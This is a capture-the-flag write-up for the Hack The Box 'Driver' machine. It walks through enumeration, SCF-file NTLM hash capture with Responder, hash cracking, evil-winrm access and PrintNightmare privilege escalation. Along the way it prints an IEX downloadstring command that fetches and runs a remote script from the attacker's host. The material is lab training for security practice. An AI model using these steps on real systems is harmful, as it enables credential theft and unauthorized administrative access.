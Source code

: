 # Driver

## Enumeration

### nmap

```
PORT    STATE SERVICE      REASON  VERSION
80/tcp  open  http         syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
445/tcp open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-11-16T06:45:20
|_  start_date: 2021-11-16T06:30:11
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 7h17m59s, deviation: 0s, median: 7h17m59s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 39061/tcp): CLEAN (Timeout)
|   Check 2 (port 18115/tcp): CLEAN (Timeout)
|   Check 3 (port 26928/udp): CLEAN (Timeout)
|   Check 4 (port 37846/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

```

Basically a windows machine with a web server, visiting the website requires admin creds

RPC open on port 135...lets do Rpc enumeration

```
$rpcdump.py 10.10.11.106
Impacket v0.9.25.dev1 - Copyright 2021 SecureAuth Corporation

[*] Retrieving endpoint list from 10.10.11.106
Protocol: [MS-RSP]: Remote Shutdown Protocol
Provider: wininit.exe
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0
Bindings:
ncacn_ip_tcp:10.10.11.106[49408]
ncalrpc:[WindowsShutdown]
ncacn_np:\\DRIVER[\PIPE\InitShutdown]
ncalrpc:[WMsgKRpc07AEA0]
...
```

There was 445 endpoints so for readability I put it in a separate file called `rpcdump.txt`

Back to the website it says: “MFP Firmware Update Center. Please enter password for admin”

Defaults creds work lol

`admin : admin`

After login we see a printer

In Firmware updates page we can uplaod files (upload Firmware)

As samba open those are probably saved in the shares

After some research (google) I discovered [SCF file attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

we create an exploit named `@exploit.scf`

we start a responder to capture hashes  
`sudo responder -wrf --lm -v -I tun0`

I had issues with tun0 interface because of my network configuration, as I am on virtualbox (Nat network + vpn from guest)

But eventually after clicking on submit button we get the following:

```
[SMB] NTLMv2 Client : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash : tony::DRIVER:6f09da70e73b9237:674092FE6EC25CB23CBB01D554A9B854:0101000000000000DEB3B39E53B8D70144991278610991070000000002000400270027000000000000000000
```

Crack the hash with john+rockyou

```
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony (tony)
1g 0:00:00:00 DONE (2021-10-03 00:42) 10.00g/s 327680p/s 327680c/s 327680C/s softball27..eatme1
```

So creds are `tony : liltony`

we connect with evil-winrm  
`evil-winrm -i 10.10.11.106 -u tony -p liltony`

USER FLAG  
`_Evil-WinRM_ PS C:\Users\tony\Desktop> type user.txt`

## Privileges Escalation

rpcdump show us the printer is enabled so `spool service` runs...we use [printNighmare](https://github.com/outflanknl/PrintNightmare) exploit

we upload the file with evil-winrm
`upload CVE-2021-1675.ps1`

But we cannot import it

````
File C:\Users\tony\Desktop\cve-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1

- Import-Module .\cve-2021-1675.ps1
- ```

  ```

- CategoryInfo : SecurityError: (:) [Import-Module], PSSecurityException
- FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
````

we can bypass that with the help of download the file with help of `IEX` command

we start a python server where the exploit is and download with IEX on evil-winrm

```
IEX(New-Object Net.Webclient).downloadstring('http://10.10.15.45:4444/CVE-2021-1675.ps1') //used port 4444 for server because 80 was busy (had another server)
```

Then we invoke it and choose our creds

```
Invoke-Nightmare -NewUser "nairolf" -NewPassword "nairolf"

[+] added user nairolf as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

Now we are admin...lets connect as such  
`evil-winrm -i 10.10.11.106 -u nairolf -p nairolf`

ROOT FLAG  
`_Evil-WinRM_ PS C:\Users\Administrator\Desktop> type root.txt`

This room was anything but easy...htb got a problem rating their boxes
